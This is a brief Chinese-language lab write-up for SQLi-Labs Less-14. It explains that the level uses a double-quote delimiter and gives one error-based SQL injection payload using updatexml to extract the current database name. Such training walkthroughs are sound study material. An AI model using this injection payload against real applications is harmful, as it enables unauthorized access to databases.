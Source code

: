 

## Less-14

由php源码发现这关和Less13相似, 只是闭合符号变成了`"`, 依然可采用报错注入
![](sqli-labs/1779065-20210223113913349-1767766896.png)



**获取当前数据库:**`1" and updatexml(1,concat(0x7e,(select database()),0x7e),0)#`

![](sqli-labs/1779065-20210223114009701-619244467.png)
